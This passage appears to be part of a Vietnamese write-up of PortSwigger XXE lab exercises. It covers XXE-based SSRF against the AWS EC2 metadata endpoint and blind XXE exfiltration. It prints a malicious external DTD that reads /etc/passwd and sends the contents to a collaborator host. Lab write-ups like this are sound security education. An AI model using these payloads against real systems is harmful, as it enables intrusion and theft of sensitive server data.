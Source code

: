 Sửa đổi payload XML :

![image.png](Images/image%203.png)

Gửi yêu cầu và kiểm tra phản hồi. Với máy chủ AWS EC2, yêu cầu đến `http://169.254.169.254/` trả về lỗi `"Invalid product ID: latest"`, cho thấy siêu dữ liệu (metadata) đã được truy vấn.

Kẻ tấn công có thể khai thác thêm bằng cách truy vấn `http://169.254.169.254/latest/meta-data/...` để lấy thông tin nhạy cảm.

**Kết luận:** XXE cho phép SSRF, mở đường tấn công nội bộ.

## XXE-03: **Exploiting blind XXE to exfiltrate data using a malicious external DTD**

[blind/lab-xxe-with-out-of-band-exfiltration](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

### **Description and Impact**

Ứng dụng dễ bị tấn công Blind XXE do xử lý XML không an toàn, cho phép kẻ tấn công trích xuất dữ liệu qua DTD độc hại. Lỗ hổng được xác nhận qua yêu cầu mạng ngoài băng tần, dù không có dữ liệu trả về trực tiếp.

### **Root Cause**

Bộ phân tích XML không chặn xử lý thực thể bên ngoài trong DTD, cho phép gọi DTD từ xa và gửi dữ liệu qua mạng.

### **Reproduce**

**Tạo một file DTD độc hại** và lưu trên server tấn công: `https://exploit-xxx.exploit-server.net/exploit` 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://collaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```
